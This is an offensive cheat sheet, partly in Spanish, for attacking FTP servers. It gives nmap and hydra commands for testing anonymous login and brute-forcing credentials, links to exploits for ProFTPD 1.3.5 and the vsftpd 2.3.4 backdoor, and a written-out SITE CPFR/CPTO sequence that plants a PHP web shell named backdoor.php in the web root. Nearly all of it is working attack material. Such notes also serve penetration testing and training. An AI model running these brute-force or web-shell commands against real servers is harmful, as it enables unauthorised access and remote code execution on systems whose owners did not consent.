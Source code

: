 ## Anonymous sesion
### Check con nmap
```
nmap IP --script ftp-anon
```
### Sesion
```
ftp IP
> username Anonymous
> password Any Password
```

## Bruteforce login
### Hydra
```
hydra -L UserList -P PassList ftp IP 
```
### Nmap
```
nmap --script ftp-brute --script-args userdb=UserList -p Puerto IP
```
## Common Vulnerabilities

### ProFTPD 1.3.5 File Copy
```
https://www.exploit-db.com/exploits/36742
```
#### Convertir la vuln en un RCE
```
site cpfr /proc/self/cmdline
site cpto /tmp/.<?php passthru($_GET['cmd']);?>
site cpfr /tmp/.<?php passthru($_GET['cmd']);?>
site cpto /var/www/html/backdoor.php
```
### vsftpd 2.3.4 Backdoor
```
https://github.com/ahervias77/vsftpd-2.3.4-exploit
```
